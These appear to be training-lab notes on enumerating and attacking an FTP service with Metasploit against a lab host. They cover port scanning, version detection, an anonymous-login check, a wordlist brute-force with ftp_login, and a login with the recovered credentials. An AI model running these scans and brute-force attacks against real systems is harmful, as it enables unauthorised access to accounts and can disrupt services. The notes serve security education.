 - FTP (File Transfer Protocol) is generally hosted on the 21/tcp port, and is used to facilitate file sharing between a server and its clients.
- It is also frequently used as a means of transferring files to and from the directory of a web server.
- FTP authentication utilizes a username and a password combination, however, in some cases an improperly configured FTP server can be logged into anonymously.
- We can use multiple auxiliary modules to enumerate information as well as perform brute-force attacks on target running an FTP server.

Practical Demonstration
		- `service postgresql start`
		- `ifconfig`
		- `msfconsole`
		- `workspace -a ftp_enum`
	- Running a port scan to enumerate the port that the FTP service is running on.
		- `search portscan`
		- `use auxiliary/scanner/portscan/tcp`
		- `show options`
		- `set RHOSTS demo.ine.local`
		- `run`
	- Searching for useful FTP auxiliary modules.
		- `search ftp`
		- `search type:auxiliary name:ftp`
	- Using an auxiliary module to perform FTP Version Enumeration.
		- `use auxiliary/scanner/ftp/ftp_version`
		- `options`
		- `set RHOSTS demo.ine.local`
		- `run`
	- Searching for an exploit to use on the FTP service, based on the service version we found during enumeration.
		- `search ProFTPD`
	- Using the `ftp_login` module to perform a bruteforce attack on the FTP service, to determine login credentials.
		- `search type:auxiliary name:ftp`
		- `use auxiliary/scanner/ftp/ftp_login`
		- `set RHOSTS demo.ine.local`
		- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
		- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
		- `run`
		- The efficacy of brute-force attacks is based on the wordlist provided for the attack.
		- The Metasploit Framework comes bundled with many wordlists that we can use.
		- If a brute-force attack is being performed on a service, it may lead to the service being unavailable.
	- Using Metasploit modules to check if anonymous login is enabled on the FTP service.
		- `search type:auxiliary name:ftp`
		- `use auxiliary/scanner/ftp/anonymous`
		- `set RHOSTS demo.ine.local`
		- `run`
	- Logging into the FTP service using credentials validated through the brute-force attack.
		- `ftp demo.ine.local`
		- `sysadmin`
		- `654321`

Methodology
	- Enumeration, including Version Detection
	- Vulnerability Assessment
	- Anonymous Login
	- Brute-force attack